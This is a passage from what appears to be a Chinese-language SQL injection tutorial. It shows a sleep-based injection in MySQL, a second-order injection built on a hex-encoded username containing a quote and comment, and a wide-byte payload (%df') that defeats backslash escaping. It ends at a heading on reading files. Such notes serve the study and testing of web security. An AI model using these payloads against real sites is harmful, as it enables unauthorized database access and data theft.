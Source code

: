 ```

mysql> update admin set id="5"+sleep(5)+"" where id=2;
Query OK, 4 rows affected (20.00 sec)
Rows matched: 4  Changed: 4  Warnings: 0
```







## 二次注入

![](http://image.xpshuai.cn/img/image-20220119175625531.png)

二次注入的语句：在没有被单引号包裹的sql语句下，我们可以用16进制编码，这样就不会带有单引号等。

```

mysql> insert into admin (id,name,pass) values ('3',0x61646d696e272d2d2b,'11');
Query OK, 1 row affected (0.00 sec)

mysql> select * from admin;
+----+-----------+-------+
| id | name      | pass  |
+----+-----------+-------+
|  1 | admin     | admin |
|  2 | admin'111 | 11111 |
|  3 | admin'--+ | 11    |
+----+-----------+-------+
4 rows in set (0.00 sec)
```







## 宽字节注入

宽字节注入：针对目标做了一定的防护，单引号转变为 `\'` , mysql 会将 `\` 编码为 `%5c` ，宽字节中两个字节代表一个汉字，所以把 `%df` 加上 `%5c` 就变成了一个汉字“運”，使用这种方法成功绕过转义，就是所谓的宽字节注入

```bash
id=-1%df' union select...
#没使用宽字节%27 -> %5C%27
#使用宽字节%df%27 -> %df%5c%27 -> 運'
```





## 文件操作

### 读文件
